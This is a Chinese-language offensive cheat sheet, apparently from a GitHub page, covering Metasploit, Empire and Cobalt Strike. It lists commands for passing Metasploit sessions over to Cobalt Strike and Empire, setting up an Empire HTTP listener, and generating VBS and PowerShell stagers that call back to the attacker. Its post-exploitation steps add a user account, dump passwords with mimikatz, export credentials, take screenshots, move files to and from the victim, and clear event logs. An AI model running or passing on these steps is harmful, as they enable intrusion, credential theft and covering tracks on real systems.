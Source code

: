 
### 

```
#clearev
```

#### **MSF派生Cobalt strike和Empire**

##### **派生Empire**

```
`Empire创建一个Listener``创建一个stager选择windows/dll``MSF使用``>use post/windows/manage/reflective_dll_inject``指定session，dll的路径，进程pid`
```

##### **派生Cobalt Strike**

```
`cobalt 开启一个监听器windows/beacon_http/reverse_http``msf``>use exploit/windows/manage/payload_inject``指定IP、端口、payload即可`
```

### **Empire**

```
`安装``#git clone https://github.com/EmpireProject/Empire.git``#cd Empire/setup``#./install.sh`
```

#### **监听**

```
`(Empire) > listeners``(Empire: listeners) > uselistener http``(Empire: listeners) > info 查看参数信息``(Empire: listeners/http) > set Name y``(Empire: listeners/http) > set Host http://192.168.0.1``(Empire: listeners/http) > set Port 8080``(Empire: listeners/http) > execute``>back命令返回listeners模块``>list查看已激活的listener``>kill http删除监听`
```

#### **生成**

```
`(Empire: listeners) > usestager windows/launcher_vbs (双击tab键查看所有模块)``(Empire: stager/windows/launcher_vbs) > info``必须设置listener的名字，可设置生成位置``(Empire: stager/windows/launcher_vbs) > set Listener y``(Empire: stager/windows/launcher_vbs) > execute``可生成vbs，靶机执行即可上线。``使用launcher命令直接生成powershell或python脚本``>launcher powershell Listener-Name``使用rename对agents更名``>rename 6NMCW4ZB target1``使用main命令放回主菜单``>list stale 列出失去权限的机器``>remove stale 去除失去权限的机器`
```

  

#### **连接靶机及其他操作**

```
`>interact target1 连接``>agent 返回靶机列表``>back 返回上一层``>shell net user 1 1 /add 执行系统目录格式``>mimikazt 加载模块获取密码``>creds 整理获取的密码，creds export /root/1.txt 保存密码，creds hash/plaintext，显示格式``>sc 获取当前桌面截图，文件存储在./Empire/download/agent名字/screenshot``>download c:\pass.txt 下载靶机文件到本机``>upload hacked.txt c:\hacked.txt 上传本机文件到靶机`
```
